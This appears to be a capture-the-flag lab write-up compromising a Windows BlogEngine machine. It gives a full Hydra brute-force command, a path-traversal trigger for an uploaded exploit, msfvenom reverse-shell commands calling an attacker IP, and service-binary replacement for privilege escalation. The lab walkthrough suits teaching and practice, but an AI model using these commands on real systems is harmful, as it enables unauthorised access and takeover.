 ## Introduction

Name of the clown

Do a reverse image search

![image](https://user-images.githubusercontent.com/16500435/97789904-84c56100-1bc4-11eb-9b3c-10e64e32f4d3.png)


## Using Hydra to brute-force a login
We need to find a login page to attack and identify what type of request the form is making to the webserver.

![image](https://user-images.githubusercontent.com/16500435/97790028-86435900-1bc5-11eb-86af-33f4f11ac77e.png)

![image](https://user-images.githubusercontent.com/16500435/97790030-9a875600-1bc5-11eb-8bd5-1aca2c490575.png)

### What request type is the Windows website login form using?
Inspect the webpage

![image](https://user-images.githubusercontent.com/16500435/97790071-eafeb380-1bc5-11eb-9c94-fa5a33b7a47a.png)

To  use hydra to attack the login page

we need to know 3 things
1. The first is the page on the server to GET or POST to
2. POST/GET variables (this can be obtained by interceptng with burpsuite or inspect with the browser
3. the string that it checks for an invalid or valid login

the 3 things are separated by :

for this webpage;

```diff
- 1 = /Account/login.aspx
```

![image](https://user-images.githubusercontent.com/16500435/97790220-12a24b80-1bc7-11eb-9971-f21e015e060a.png)

```diff
- 2 =
```
__VIEWSTATE=NPcS%2FpPhbdpYWPlz3e74oFCXMstMbFqsP9cOiB4V8tH6xy7L82cQCWH3qQgCTeCoC8%2BUmqGDy7R%2Ffshw3WGlKVk%2BNFV2lMJiJO68c31GLNzcyHnqHFXU8jKKIdbnUPhyqURshgyGe8FNU2wgrI%2FeouiiPG4nL3e4pII5dfRTwvkHiHO3iWrgMhaQKLUsL5kQyfLku5kbk%2F21SAMguE9fI8wO%2FY4koYBwIBFH9m%2FxbkIYOsK26%2B3faUvN7vyzNNV%2BIyACpa8CgVI%2FxHVy4hW%2FtjPBdlc5QWrh69LR4SEVuFSby94rPwlA86Vk66Ui02Ug7qd62oHcebVjWyiYXOxRK0o7c0DN2On1ACrMXtAlF7dr6jj7&__EVENTVALIDATION=FlYxJzeHWCNQkM9qo57%2Fk6MbCgdLruRe41cZxlMooYGMNdS3onCsDAcKAha3%2FNCVMRzf%2BZl9z4sZBQrPURw8Xg%2BKOIr7H601FFotgpUO6wCpgj4%2F6SbRZgtC5kLZqsLKApwKszpNxHDx1N8dXHe4jAbDP4kLIn%2BpiXKKDI9Az1RN2n3e&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=login123&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in

![image](https://user-images.githubusercontent.com/16500435/97790313-df13f100-1bc7-11eb-930a-839bdcaa5aae.png)

```diff
- 3 =
```
Login failed

![image](https://user-images.githubusercontent.com/16500435/97790334-0ff42600-1bc8-11eb-88d3-300de801586e.png)

full command to brute-force with hydra is;


`$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.160 http-post-form "/Account/login.aspx:__VIEWSTATE=NPcS%2FpPhbdpYWPlz3e74oFCXMstMbFqsP9cOiB4V8tH6xy7L82cQCWH3qQgCTeCoC8%2BUmqGDy7R%2Ffshw3WGlKVk%2BNFV2lMJiJO68c31GLNzcyHnqHFXU8jKKIdbnUPhyqURshgyGe8FNU2wgrI%2FeouiiPG4nL3e4pII5dfRTwvkHiHO3iWrgMhaQKLUsL5kQyfLku5kbk%2F21SAMguE9fI8wO%2FY4koYBwIBFH9m%2FxbkIYOsK26%2B3faUvN7vyzNNV%2BIyACpa8CgVI%2FxHVy4hW%2FtjPBdlc5QWrh69LR4SEVuFSby94rPwlA86Vk66Ui02Ug7qd62oHcebVjWyiYXOxRK0o7c0DN2On1ACrMXtAlF7dr6jj7&__EVENTVALIDATION=FlYxJzeHWCNQkM9qo57%2Fk6MbCgdLruRe41cZxlMooYGMNdS3onCsDAcKAha3%2FNCVMRzf%2BZl9z4sZBQrPURw8Xg%2BKOIr7H601FFotgpUO6wCpgj4%2F6SbRZgtC5kLZqsLKApwKszpNxHDx1N8dXHe4jAbDP4kLIn%2BpiXKKDI9Az1RN2n3e&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`


username = "admin" from the post(hint)

password is a wordlist

Output from the hydra bruteforce

![1](https://user-images.githubusercontent.com/16500435/97790537-a117cc80-1bc9-11eb-8613-922a6190526d.jpg)


**Compromising the machine**

![2](https://user-images.githubusercontent.com/16500435/97790577-f18f2a00-1bc9-11eb-9278-2330ffdb567f.jpg)

we can see the version of the blogengine running after logon
then search exploitdb or use searchsploit to find vulnerabilities/exploit for this version

**Searchsploit**
![3](https://user-images.githubusercontent.com/16500435/97790646-78dc9d80-1bca-11eb-98fe-88c4ad818483.jpg)

**Exploitdb**
![4](https://user-images.githubusercontent.com/16500435/97790659-a6294b80-1bca-11eb-8010-164de3bb1159.jpg)

Read through the instruction on exploitdb
Download the exploit
Change the attacker ip address and port on the code to your ip/port

![5](https://user-images.githubusercontent.com/16500435/97790680-e2f54280-1bca-11eb-8436-b56292a992db.jpg)

save as PostView.ascx
Upload this file to the machine (this url will provide means to upload file to the machine http://10.10.221.182/admin/app/editor/editpost.cshtml)

![6](https://user-images.githubusercontent.com/16500435/97790700-13d57780-1bcb-11eb-8544-69f9006fa247.jpg)

the vulnerability is triggered by accessing the base URL for the blog with a theme override specified like so:
 
http://10.10.221.182/?theme=../../App_Data/files

start a netcat session to listen on the port you specify in the exploit then access the above url

![7](https://user-images.githubusercontent.com/16500435/97790724-497a6080-1bcb-11eb-839e-88413a0bb36c.jpg)

This shell is unstable to get a more stable shell We will create a reverse shell executable with msfvenom:

on your machine run the command;

_msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=<attacker_machine_ip> LPORT=<port_to_listen> -f exe -o <shell_name.exe>_

Example: _msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.69.211 LPORT=4444 -f exe -o myshell.exe_

Now upload this file to the window machine using powershell

start a simple HTTPserver to serve

![a](https://user-images.githubusercontent.com/16500435/97790751-92321980-1bcb-11eb-8bb3-f8ae5e75685a.jpg)

on the window machine

![b](https://user-images.githubusercontent.com/16500435/97790813-31efa780-1bcc-11eb-9c7f-02ea9eec0cdd.jpg)

Once the upload is successful, execute the file
first start an nc session to listen on the port specified on the shell you created.

![c](https://user-images.githubusercontent.com/16500435/97790856-ac202c00-1bcc-11eb-8631-f921856ade1d.jpg)
![d](https://user-images.githubusercontent.com/16500435/97790866-c528dd00-1bcc-11eb-8dce-ea560739a548.jpg)

To Execute the file ;
_start myshell.exe_

![e](https://user-images.githubusercontent.com/16500435/97790877-e8538c80-1bcc-11eb-90ae-e8ce4bd1bd0e.jpg)

Successfully connected

```diff
@@*Alternative Method*@@
```
Use Metersploit
Upload the shell and execute the shell on the window machine, then exploit on metasploit

![f](https://user-images.githubusercontent.com/16500435/97790967-e4743a00-1bcd-11eb-8d4b-23860c806602.jpg)

![g](https://user-images.githubusercontent.com/16500435/97790974-f950cd80-1bcd-11eb-890e-45daab2f991c.jpg)

## PRIVILEGE ESCALATION

![aa](https://user-images.githubusercontent.com/16500435/97791015-3f0d9600-1bce-11eb-967a-890a84176788.png)

![bb](https://user-images.githubusercontent.com/16500435/97791042-809e4100-1bce-11eb-883d-bbeee85cfa57.png)

**ALternative Method to Escalate Privilege**

Going through the winPEAS output on the services tab, we can see interesting service (WindowsScheduler) which can be modified.
its located in C:\Program Files (x86)\SystemScheduler

![h](https://user-images.githubusercontent.com/16500435/97791095-f30f2100-1bce-11eb-8351-184adbc20e23.jpg)

navigate to this directory and see what is in it

![i](https://user-images.githubusercontent.com/16500435/97791110-1afe8480-1bcf-11eb-8bc9-2e0de59670bd.jpg)

we also can check tasks that are running using the command _tasklist /v_

![cc](https://user-images.githubusercontent.com/16500435/97791141-631da700-1bcf-11eb-8aca-61713da1ea00.png)

We can use **venom** to create a window reverse-shell and replace the task with it

_msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.69.211 LPORT=4444 -f exe -o shell.exe_

![j](https://user-images.githubusercontent.com/16500435/97791186-cc051f00-1bcf-11eb-80e4-0701710112cc.jpg)

![dd](https://user-images.githubusercontent.com/16500435/97791206-23a38a80-1bd0-11eb-9ace-9b85a601be4f.png)

![image](https://user-images.githubusercontent.com/16500435/97791225-59e10a00-1bd0-11eb-86fb-a406f9260064.png)



